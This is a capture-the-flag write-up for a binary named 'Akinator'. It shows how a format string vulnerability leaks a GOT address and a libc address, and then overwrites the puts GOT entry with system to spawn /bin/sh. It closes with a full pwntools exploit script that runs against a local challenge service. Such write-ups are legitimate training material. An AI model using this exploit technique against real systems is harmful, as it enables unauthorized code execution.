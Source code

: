 ### Writeup for the Challenge

#### Overview

This challenge involves exploiting a Format String vulnerability to leak the addresses of the puts in the GOT table and system address in the libc. then call puts from plt with '/bin/sh' as an argument to get a shell.

#### Steps to Exploit

0. **Checksec**:


    ![check](assets/checkSec.png)

    - Since RELRO is Partial, we can overwrite the GOT table.
    - Since PIE is enabled, we need to leak the address of puts in the GOT table and leak system address in the libc.
    
1. **Decompiler View (Ghidra)**:


    ![main](assets/akinatorFunc.png)

    - The program has two functions: `Akinator()` and `nameChecker()` and `print_error()`.
    - `Akinator()` reads the user input and calls `nameChecker()` to check if the input start with '/bin/sh' and calls `print_error()` if it does not.




2. **Get the Address of puts in the GOT Table and system in the libc using gdb**:

    ![gotAndSystemAddr](assets/gotAndSystemAddr.png)

    -Using gdb to get the address of puts in the GOT table and system in the libc in running process by `attach ${pid}` in gdb then  using the command `got` and `print system` if you use gef or pwndbg.

3. **Get Leaked Addresses using Format String Vulnerability**:

    - leaked addresses must be in the form of `0x55...` and `0x7f...` for the address of puts in the GOT table and system in the libc respectively to ensure that the addresses are correct.
    - using `%p %13$p` to leak the address that we need.
    - calculate the offset of the leaked addresses and the address of puts in the GOT table and system in the libc that we got from gdb.

4. **Calculate the offest for format string payload**:

    - You can use simple way by using this input `ABCD %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p` then look where `ABCD` hex value is in the output to calculate the offset.
    - In this case the offset is 6. 

5. **Replace name by /bin/sh**:

    - After leaking the addresses, and sending the format string payload to overwrite the GOT entry of the put function with the address of the system function, the program will ask if you want to enter a name again.
    - Respond with 'y' to enter '/bin/sh' as the name to be the argument for the system function.
    - The program will then ask if you want to enter a name again. Respond with 'n' to make the program use the put function that will call the system function after changing the GOT entry.

6. **Exploit**:


```python
from pwn import *
# Define the offsets between the addresses of the functions in the debugger
# and the addresses of the functions in the binary. These offsets are calculated
# based on the difference between the addresses of the functions in the debugger
# and the leaked addresses of the same functions from the binary.

# Address of the system function in the debugger
systemDbgAddr = 0x7f85ad0b3d70 

# Leaked address to calculate the system function address
leakedAddrToGetSystem = 0x7f85ad0f13f5

# Calculate the difference (offset) between the addresses of the system function
systemdiff = systemDbgAddr - leakedAddrToGetSystem

# Address of the put function in the debugger
putAddrDbg = 0x55c78376c000

# Leaked address to calculate the put function address
leakedAddrToGetput = 0x55c78376a008

# Calculate the difference (offset) between the addresses of the put function
putDiff = putAddrDbg - leakedAddrToGetput

# Start a process or a remote connection to the binary 'Akinator'
# Uncomment the appropriate line for either a local process or a remote connection
# p = process('./Akinator')
p = remote('localhost', 2001)

# Set the binary context for pwntools
context.binary = ELF('./Akinator')
context.arch = 'amd64'

# Receive data until the prompt appears
p.recvuntil(': ')

# Send an initial format string to leak an address
p.sendline('%p %13$p')

# Receive the line containing the leaks and decode it
allLeaks = p.recvline().decode().strip()
leaks = allLeaks.split(' ')

# Extract the specific leaks needed
toGetputGot = int(leaks[14], 16)
togetSystemLeak = int(leaks[15], 16)

# Log the leaked address to get the system function
log.info('togetSystemLeak: ' + hex(togetSystemLeak))

# Calculate the actual system function address using the offset
systemAddr = togetSystemLeak + systemdiff 
log.info('systemAddr: ' + hex(systemAddr))

# Log the leaked address to get the put function GOT entry
log.info('toGetputGot: ' + hex(toGetputGot))


# Calculate the actual put function GOT entry address using the offset
putGot = toGetputGot + putDiff
log.info('putGot: ' + hex(putGot))

# Receive data until the next prompt
p.recvuntil('(y/n)')
p.sendline('y')
p.recvuntil(': ')

# Create the format string payload to overwrite the GOT entry for the put function
fmt = fmtstr_payload(6, {putGot: systemAddr}, write_size='short')

# Send the format string payload
p.sendline(fmt)

# Receive data until the next prompt and respond with 'y' to enter '/bin/sh'
p.recvuntil('(y/n)')
p.sendline('y')
p.recvuntil(': ')

# Send the command to open a shell
p.sendline('/bin/sh')

# Receive data until the next prompt and respond with 'n' to make program use put that will call system after changing the GOT entry
p.recvuntil('(y/n)')
p.sendline('n')

# Interact with the shell
p.interactive()

```

